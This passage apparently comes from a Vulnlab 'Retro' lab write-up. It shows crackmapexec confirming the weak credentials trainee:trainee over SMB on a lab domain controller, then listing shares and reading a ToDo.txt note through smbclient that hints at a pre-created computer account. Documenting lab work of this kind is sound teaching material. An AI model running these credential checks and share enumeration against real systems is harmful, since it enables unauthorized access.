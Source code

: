 We performed an SMB brute-force attack for the user `trainee` using `crackmapexec` and confirmed the credentials.

```
┌──(destiny㉿falcon)-[~]
└─$ crackmapexec smb 10.10.66.32 -u trainee -p trainee                           
SMB         10.10.66.32     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.66.32     445    DC               [+] retro.vl\trainee:trainee 
```

We checked the shares again using the user credentials and found that we now had access to multiple new shares.

```
┌──(destiny㉿falcon)-[~]
└─$ crackmapexec smb 10.10.66.32 -u "trainee" -p "trainee" --shares
```

<img src="attachments/8839365da850acf6a9e2579495b2d8e1.png" />

Found a new note on the `Notes` share after logging into the SMB server.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro/smb]
└─$ smbclient -U trainee '//10.10.66.32/Notes'
Password for [WORKGROUP\trainee]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 23 18:03:16 2023
  ..                                DHS        0  Wed Jul 26 05:54:14 2023
  ToDo.txt                            A      248  Sun Jul 23 18:05:56 2023

                6261499 blocks of size 4096. 2893598 blocks available
```

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro/smb]
└─$ cat ToDo.txt 
Thomas,

after convincing the finance department to get rid of their ancienct banking software
it is finally time to clean up the mess they made. We should start with the pre created
computer account. That one is older than me.

Best
James
```
